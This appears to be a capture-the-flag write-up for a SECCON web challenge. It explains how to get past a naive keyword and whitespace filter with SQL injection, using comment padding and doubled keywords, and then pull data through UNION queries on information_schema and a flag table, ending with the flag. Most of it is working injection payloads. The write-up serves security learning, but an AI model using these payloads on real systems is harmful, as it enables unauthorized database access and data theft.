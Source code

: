# Web Search

The website displays a list of contents stored in the database and has a search box.
In addition, it is vulnerable to SQL injection.

When searching, `%`, `|`, `!`, `,`, `AND`, `OR` and white space are removed (case insensitive and not recursive).

## Solving

First, get data by using a simple SQL injection.
To inject `' or 1=1;#` into a SQL statement, you can use `'/**/oorr/**/1=1;#`.
This gives you a part of the FLAG "SECCON{Yeah_Sqli_Success_" and a message 'the rest of flag is in "flag" table'.

Next, get the name of the column in the "flag" table by using the "columns" table of the "information_schema" database.
It can be got by injecting `zz'union select * from(select null)as a join(select column_name from information_schema.columns where table_name='flag')as b join(select null)as c#`.
So searching by `zz'union/**/select/**/*/**/from(select/**/null)as/**/a/**/join(select/**/column_name/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='flag')as/**/b/**/join(select/**/null)as/**/c#`, you find it is "piece".

Then, get the value of the "piece" column of the "flag" table by using "UNION".
It can be got by injecting `zz'union select * from(select null)as a join(select piece from flag)as b join(select null)as c#`.
So searching by `zz'union/**/select/**/*/**/from(select/**/null)as/**/a/**/join(select/**/piece/**/from/**/flag)as/**/b/**/join(select/**/null)as/**/c#`, you find it is "You_Win_Yeah}"

Finally, from the above results, you can get the FLAG "SECCON{Yeah_Sqli_Success_You_Win_Yeah}".
